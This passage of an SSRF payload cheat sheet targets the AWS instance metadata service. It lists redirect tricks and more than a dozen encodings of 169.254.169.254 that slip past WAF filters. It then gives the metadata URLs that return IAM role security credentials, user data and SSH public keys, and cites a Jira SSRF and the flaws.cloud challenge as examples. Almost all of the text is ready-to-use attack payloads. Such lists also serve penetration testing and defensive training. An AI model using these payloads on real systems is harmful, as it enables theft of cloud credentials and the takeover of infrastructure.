 * HTTP redirect

  ```powershell
  Static:http://nicob.net/redir6a
  Dynamic:http://nicob.net/redir-http-169.254.169.254:80-
  ```

* Encoding the IP to bypass WAF

  ```powershell
  http://425.510.425.510 Dotted decimal with overflow
  http://2852039166 Dotless decimal
  http://7147006462 Dotless decimal with overflow
  http://0xA9.0xFE.0xA9.0xFE Dotted hexadecimal
  http://0xA9FEA9FE Dotless hexadecimal
  http://0x41414141A9FEA9FE Dotless hexadecimal with overflow
  http://0251.0376.0251.0376 Dotted octal
  http://0251.00376.000251.0000376 Dotted octal with padding
  http://0251.254.169.254 Mixed encoding (dotted octal + dotted decimal)
  http://[::ffff:a9fe:a9fe] IPV6 Compressed
  http://[0:0:0:0:0:ffff:a9fe:a9fe] IPV6 Expanded
  http://[0:0:0:0:0:ffff:169.254.169.254] IPV6/IPV4
  http://[fd00:ec2::254] IPV6
  ```

These URLs return a list of IAM roles associated with the instance. You can then append the role name to this URL to retrieve the security credentials for the role.

```powershell
http://169.254.169.254/latest/meta-data/iam/security-credentials
http://169.254.169.254/latest/meta-data/iam/security-credentials/[ROLE NAME]
```

This URL is used to access the user data that was specified when launching the instance. User data is often used to pass startup scripts or other configuration information into the instance.

```powershell
http://169.254.169.254/latest/user-data
```

Other URLs to query to access various pieces of metadata about the instance, like the hostname, public IPv4 address, and other properties.

```powershell
http://169.254.169.254/latest/meta-data/
http://169.254.169.254/latest/meta-data/ami-id
http://169.254.169.254/latest/meta-data/reservation-id
http://169.254.169.254/latest/meta-data/hostname
http://169.254.169.254/latest/meta-data/public-keys/
http://169.254.169.254/latest/meta-data/public-keys/0/openssh-key
http://169.254.169.254/latest/meta-data/public-keys/[ID]/openssh-key
http://169.254.169.254/latest/dynamic/instance-identity/document
```

**Examples**:

* Jira SSRF leading to AWS info disclosure - `https://help.redacted.com/plugins/servlet/oauth/users/icon-uri?consumerUri=http://169.254.169.254/metadata/v1/maintenance`
* *Flaws challenge - `http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/169.254.169.254/latest/meta-data/iam/security-credentials/flaws/`
